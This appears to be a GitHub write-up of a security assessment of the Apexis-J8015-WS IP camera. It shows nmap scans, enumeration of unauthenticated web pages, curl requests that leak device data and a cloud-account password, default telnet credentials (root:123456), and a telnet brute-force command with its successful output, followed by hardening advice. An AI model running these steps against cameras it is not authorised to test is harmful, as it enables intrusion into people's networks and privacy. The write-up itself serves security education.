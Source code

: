 # Apexis-J8015-WS
> 22-06-2021

## Description
The Apexis-J8015-WS is a cheap PTZ IP-CAMERA(Factory settings)

### I/O

- 5V(continuous) 2A
- Microphone INPUT 2.5mm
- Audio Output 2.5mm
- RP-SMA Female
- 2 GPIO PIN
- 2 "Alarm" PIN
- 1 RJ-45 Ethernet port

## Hacking

### Basic web research
https://seclists.org/fulldisclosure/2017/Mar/23

Default WEB credentials:
- Username: `admin`
- Password: none

### Nmap Scan

#### Host Discovery
Let's run some nmap scans
```bash
nmap -O IP-CAMERA
```

```
MAC Address: 44:33:XX:XX:XX:XX (Shenzhen Bilian electronic)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
```

#### Port Scanning
```bash
nmap -sC -sV IP-CAMERA
```

```
PORT   STATE SERVICE VERSION
23/tcp open  telnet  BusyBox telnetd
80/tcp open  http    mini_httpd 1.19 19dec2003
|_http-server-header: mini_httpd/1.19 19dec2003
|_http-title: Site doesn't have a title (text/html).
```

### IP-CAMERA Web server

#### Basic enumaration

Using the `ApexisURLEnum.py` script with the `enumlist.txt` we can found some interesting datas!
```bash
python3 ApexisURLEnum.py enumlist.txt IP-CAMERA 80
```

Here are some valid urls that don't requires login
```
[+] http://IP-CAMERA:80/IPCameramon.htm
[+] http://IP-CAMERA:80/lang.js
[+] http://IP-CAMERA:80/alias.htm
[+] http://IP-CAMERA:80/rebootme.htm
[+] http://IP-CAMERA:80/reboot.htm
[+] http://IP-CAMERA:80/get_status.cgi
[+] http://IP-CAMERA:80/recpath.htm
[+] http://IP-CAMERA:80/version_conf
[+] http://IP-CAMERA:80/ddns.htm
[+] http://IP-CAMERA:80/upgrade.htm
[+] http://IP-CAMERA:80/alarm.htm
[+] http://IP-CAMERA:80/upnp.htm
[+] http://IP-CAMERA:80/light.htm
[+] http://IP-CAMERA:80/test_ftp.htm
[+] http://IP-CAMERA:80/status.htm
[+] http://IP-CAMERA:80/IPCameramob.htm
[+] http://IP-CAMERA:80/p2p.htm
[+] http://IP-CAMERA:80/msn.htm
[+] http://IP-CAMERA:80/get_tutk_account.cgi
[+] http://IP-CAMERA:80/backup.htm
[+] http://IP-CAMERA:80/test_mail.htm
[+] http://IP-CAMERA:80/vlc_noplugin.htm
[+] http://IP-CAMERA:80/user.htm
[+] http://IP-CAMERA:80/public.js
[+] http://IP-CAMERA:80/log.htm
[+] http://IP-CAMERA:80/VLC_live.htm
[+] http://IP-CAMERA:80/login.htm
[+] http://IP-CAMERA:80/adsl.htm
[+] http://IP-CAMERA:80/VLC_IPCameralive.htm
[+] http://IP-CAMERA:80/main.htm
[+] http://IP-CAMERA:80/decoder.htm
[+] http://IP-CAMERA:80/mail.htm
[+] http://IP-CAMERA:80/monitor.htm
[+] http://IP-CAMERA:80/IPCameralive.htm
[+] http://IP-CAMERA:80/showocx.js
[+] http://IP-CAMERA:80/live.htm
[+] http://IP-CAMERA:80/ip.htm
[+] http://IP-CAMERA:80/datetime.htm
[+] http://IP-CAMERA:80/multidev.htm
[+] http://IP-CAMERA:80/ptz.htm
[+] http://IP-CAMERA:80/wireless.htm
[+] http://IP-CAMERA:80/ftp.htm
[+] http://IP-CAMERA:80/index.htm
[+] http://IP-CAMERA:80/snapshot.htm
```

#### Information Gathering
Now we can see 2 `.cgi` files
```
[+] http://IP-CAMERA:80/get_status.cgi
[+] http://IP-CAMERA:80/get_tutk_account.cgi
```

##### Camera's Informations
```bash
curl http://IP-CAMERA:80/get_status.cgi
```

```
var id='4433XXXXXXXX';
var sys_ver='17.X.X.XX';
var app_ver='30.XX.X.XX';
var alias='IP-CAMERA';
var now=1624537624;
var tz=-3600;
var alarm_status=2;
var ddns_status=29;
var oray_type=0;
var wifi_status=1;
var upnp_status=0;
var msn_status=0;
var ddns_host='XXXX.XXXX.org';
```

##### Possible password leak
```bash
curl http://IP-CAMERA:80/get_tutk_account.cgi
```

```
var ret_tutk_guid='';
var ret_tutk_user='';
var ret_tutk_pwd='000000';
```

### IP-CAMERA Telnet
Now that we have done some research on the IP-CAMERA web server, let's have a look to telnet.

```bash
telnet IP-CAMERA 23
```

```
Trying IP-CAMERA...
Connected to IP-CAMERA.
Escape character is '^]'.

(none) login: 
```

The default telnet credentials for the Apexis-J8015-WS IP camera are:
```
Login: root
Password: 123456
```

But the credentials could be different. Let's do a bit of brute force oin the camera telnet.
```bash
nmap -p 23 --script telnet-brute --script-args userdb=Misc/bruteforce-lists/userlist.txt,passdb=Misc/bruteforce-lists/passlist.txt,telnet-brute.timeout=8s IP-CAMERA
```

```
Host is up (0.0032s latency).

PORT   STATE SERVICE
23/tcp open  telnet
| telnet-brute: 
|   Accounts: 
|     root:123456 - Valid credentials
|_  Statistics: Performed 103 guesses in 33 seconds, average tps: 2.7

Nmap done: 1 IP address (1 host up) scanned in 33.33 seconds
```

## Conclusion (at the moment)
With a bit of **hacking** skills, we now know that the Apexis-J8015-WS is vulnerable!
There is a lots of other things to say about this IP camera like:
- DDNS
- CGI scripts
- Wifi Scanning using the camera(yes, you can...)
- Live stream
- Audio
- Etc...

We have done:
- Information Gathering
- Nmap Scans
- File Enumaration
- Brute Force
  
Using these: leaks, vulnerabilities, and misconfigurations, we now have acces to a IP camera.
This could be dangerous for your privacy or enterprise.
A simple cheap or misconfigured IP camera could become a real weapon!
An attacker could use this camera to enter your network, enter your privacy, and use this device against you.

### How to protect?
- Buy a good quality camera
- Disable all unused features such as: DDNS, WI-FI discovery, Remote access, Telnet, Etc...
- Set strong passwords
- Upgrade your firmware when it's possible
- Use LAN rather than WI-FI when it's possible
- Check logs as often as you can

Thank you for reading!
